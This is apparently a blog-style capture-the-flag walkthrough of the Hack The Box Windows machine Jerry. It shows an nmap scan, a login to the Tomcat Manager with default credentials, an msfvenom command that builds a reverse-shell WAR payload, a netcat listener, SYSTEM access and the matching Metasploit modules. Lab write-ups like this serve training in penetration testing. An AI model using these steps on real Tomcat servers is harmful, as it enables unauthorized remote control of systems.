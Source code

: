 ## Hack The Box - Jerry (10.10.10.95)
Jerry is a medium box from Hack The Box and it is a Windows machine. This machine demonstrates poor practice in the use of default credentials and a lack of file upload sanitization.  
Our methodology will be to enumerate until we find an attack surface to obtain our initial foothold. In this scenario, we may not need to perform privilege escalation due to the nature of our exploitation. Watch the video walkthough on Youtube HERE or read along.

### ENUMERATION:
To begin with, we will start a Nmap scan on our target as part of our first enumeration steps. For this, I will opt to use nmapAutomator, although you can run a traditional Nmap scan.

```markdown
# Nmap 7.91 scan initiated Sat Dec 18 13:22:41 2021 as: nmap -sC -sV -Pn -oA nmap 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.053s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 18 13:22:57 2021 -- 1 IP address (1 host up) scanned in 15.29 seconds
```

I notice from our scan that port 8080 is hosting Apache Tomcat. Let’s go ahead and visit our webpage and poke around. 
[homepage1.png]
It seems to be a default installation as hinted by the top banner “If you’re seeing this, you’ve succesfully installed Tomcat. Congradulations!” We notice the option on the right hand side to access either Server Status, Manager App, or Host Manager – all very intresting options and a possible attack surface. 
Upon clicking on Manager App I am presented with a login box: 
[login_prompt2.png]
Considering this is a default installation, defualts credentials would normally be a good start. I guessed the wrong credentials on my first login attempt, but was promptly greeted with a error page which provided the default credentials of tomcat:s3cret.
[default_credentials3.png]
I can now login to the Tomcat Web Application Manager. If you’re unfamiliar with this tool, the Tomcat Manager is a web application that can be used to interactively to deploy and manage web applications. With that being said, upon furthur inspection of this web page we notice at the bottom more detailed information about our server and the ability to deploy .WAR files directly from this page. We have found our  attack surface for the initial foothold. 


### EXPLOITATION: 
If you’re unfamiliar with a .WAR file, it is simply a .JAR file but contains only web related Java files like Servlets, JSP, and HTML. We will be exploiting the ability to upload and deploy these .WAR files directly from the Manager App webpage to our victim machine by crafting a malicous .WAR file as our payload to call back to our attacker machine. 

Time to get our intial foothold. We will craft our payload using msfvenom utilizing the ‘java/jsp_shell_reverse_tcp’ payload formated as a war file. Before executing the following command, ensure that 10.10.10.10. is replace with your attacker machine’s IP address. 

```markdown
Msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f war -o Payload.war
```

Now let us upload our shell via the Manager App web page.
[payload5.png]
We can now see our payload populate at the top of the page under Applications. In order to catch our reverse TCP shell we must set up a listener first. We will catch this reverse shell utilizing Netcat. To do this, execute the below command and ensure that the port listed in this command is the same declared in our msfvenom command from earlier. 

```markdown
nc -lvnp 1337
```

With our listener established on port 1337 we may now execute our payload on the victim machine. To do so, simply click your payload’s name under the Application second of the web page.
[application6.png]
In a few seconds, we should have a connection on our Netcat listener providing us with a shell to our victim machine! 
[shell7.png]

### Privledge Eslcation:
In this scenario, privlege escalation is not required. Upon running the ‘whoami’ command on our victim’s machine we notice we are already NT AUTHORITY\SYSTEM. You can find your flags in C:\Users\Administrator\Desktop\flags listed under a file “2 for the price of 1.txt”. 

### Closing Remarks:
Although manual enumeration and exploitation was performed, metasploit modules do exist for this scenario. Utilize ```markdown ‘auxilary/scanner/http/tomcat_mgr_login’ ``` to bruce force the defualt login credentials for our Manager App followed by ```markdown ‘multi/http/tomcat_mgr_upload’ ``` to automatically craft, upload, and deploy your payload. Metasploit will create a listener and catch the reverse TCP shell for you! 
Thanks for reading! 


